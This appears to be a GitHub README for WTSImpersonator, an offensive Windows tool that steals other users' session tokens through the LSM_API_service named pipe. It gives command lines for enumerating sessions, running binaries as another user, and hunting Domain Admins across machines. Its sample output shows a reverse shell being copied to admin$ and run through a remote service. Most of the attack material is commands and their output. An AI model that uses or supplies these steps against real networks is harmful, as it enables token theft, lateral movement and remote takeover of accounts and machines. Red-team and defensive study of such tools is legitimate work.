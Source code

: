 # WTSImpersonator
WTSImpersonator utilizes WTSQueryUserToken to steal other users tokens \(Local/Remote\) without using NtOpenProcess or touching Lsass.exe by abusing RPC Named Pipe "\\pipe\LSM_API_service" \(Admin Privileges Required\)   
  
![wtsLOGOwhite](https://github.com/OmriBaso/WTSImpersonator/assets/50461376/89391383-769e-4460-9adb-a146e290721a)

## Usage: 
 
##### `enum` Module  
  
Enumerate Local Users on the machine the tool is running from  
```powershell
.\WTSImpersonator.exe -m enum
```
Enumerate a machine remotely given an IP or an Hostname.
```powershell  
.\WTSImpersonator.exe -m enum -s 192.168.40.131  
```
##### `exec` / `exec-remote` Module  
Both "exec" and "exec-remote" requires being in a **"Service"** context.  
The local "exec" module does not need anything buy the WTSImpersonator.exe and the binary you want to execute \(-c flag\), this could be  
a normal "C:\Windows\System32\cmd.exe" and you will open a CMD as the user you desire, an example would be  
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe  
```
you could use PsExec64.exe in order to obtain a service context  
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```powershell
For `exec-remote` things are a bit different, I created a service that can be installed remotely just like `PsExec.exe`  
the service will receive a `SessionId` and a `binary to run` as an argument and it will be installed and executed remotely given the right permissions  
an example run would look as follows:
  
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m enum -s 192.168.40.129

 __          _________ _____ _____                                                 _
 \ \        / /__   __/ ____|_   _|                                               | |
  \ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
   \ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
    \  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
     \/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
                                            | |
                                            |_|
         By: Omri Baso
WTSEnumerateSessions count: 1
[2] SessionId: 2 State: WTSDisconnected (4) WinstationName: ''
        WTSUserName:  Administrator
        WTSDomainName: LABS
        WTSConnectState: 4 (WTSDisconnected)
```  
as can be seen above the `Sessionid` of the Administrator account is `2` so we use it next in the `id` variable when executing code remotely
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```  
##### `user-hunter` Module  

The user hunter module will give you the ability to enumerate multiple machines and if a given user is found, it will execute code on this user behalf.  
this is useful when hunting for "Domain Admins" while having local administrator rights on a few machines.  
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m user-hunter -uh LABS/Administrator -ipl .\test.txt -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe

 __          _________ _____ _____                                                 _
 \ \        / /__   __/ ____|_   _|                                               | |
  \ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
   \ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
    \  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
     \/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
                                            | |
                                            |_|
         By: Omri Baso

[+] Hunting for: LABS/Administrator On list: .\test.txt
[-] Trying: 192.168.40.131
[+] Opned WTS Handle: 192.168.40.131
[-] Trying: 192.168.40.129
[+] Opned WTS Handle: 192.168.40.129

----------------------------------------
[+] Found User: LABS/Administrator On Server: 192.168.40.129
[+] Getting Code Execution as: LABS/Administrator
[+] Trying to execute remotly
[+] Transfering file remotely from: .\WTSService.exe To: \\192.168.40.129\admin$\voli.exe
[+] Transfering file remotely from: .\SimpleReverseShellExample.exe To: \\192.168.40.129\admin$\DrkSIM.exe
[+] Successfully transfered file!
[+] Successfully transfered file!
[+] Sucessfully Transferred Both Files
[+] Will Create Service voli
[+] Create Service Success : "C:\Windows\voli.exe" 2 C:\Windows\DrkSIM.exe
[+] OpenService Success!
[+] Started Sevice Sucessfully!

[+] Deleted Service
```
## Credits:
#### Research / Coding: [Omri Baso](https://www.linkedin.com/in/omri-baso/)
#### Graphics Logo: [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111/)
